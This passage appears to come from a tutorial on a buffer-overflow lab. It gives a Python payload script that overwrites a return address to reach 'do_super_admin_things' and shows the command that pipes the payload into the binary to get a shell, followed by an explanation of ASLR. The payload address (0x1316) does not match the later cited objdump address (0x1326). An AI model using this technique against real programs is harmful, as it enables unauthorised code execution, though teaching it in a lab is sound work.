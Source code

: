 To make life easier for us, we'll write a python script that will generate this payload for us. Note that this is using 
our function address from before.

{% highlight python %}#!/usr/bin/python
import sys

# fill out the original buffer
payload =  b"A" * 64
# extra pad to skip to where we want our instruction pointer 
payload += b"BBBBCCCCDDDD"
# address of our function "do_super_admin_things"
payload += b"\x16\x13\x00\x00"

sys.stdout.buffer.write(payload)
{% endhighlight %}

We can now inject this into the execution of our binary and achieve a shell:

{% highlight shell %}
$ (python3 payload.py; cat) | ./vuln1 

ls
input  payload.py  the-password  vuln1	vuln1.c
{% endhighlight %}

We use `(python3 payload.py; cat)` here because of the shell's handling of file descriptors. Without doing this and 
simply piping the output, our shell would kill the file descriptors off.

# Static vs. Runtime Addresses

When we run our program normally, modern operating systems apply **Address Space Layout Randomization (ASLR)**, which 
shifts memory locations randomly each time the program starts. ASLR is a security feature that makes it more challenging 
for exploits to rely on hardcoded memory addresses, because the memory layout changes every time the program is loaded.

For example, if we inspect the runtime address of 1do_super_admin_things` in GDB, we might see something like:

{% highlight plain %}
(gdb) info address do_super_admin_things
Symbol "do_super_admin_things" is at 0x56556326 in a file compiled without debugging.
{% endhighlight %}

This differs from the `objdump` address `0x1326`, as it’s been shifted by the base address of the executable 
(e.g., `0x56555000` in this case). This discrepancy is due to ASLR.
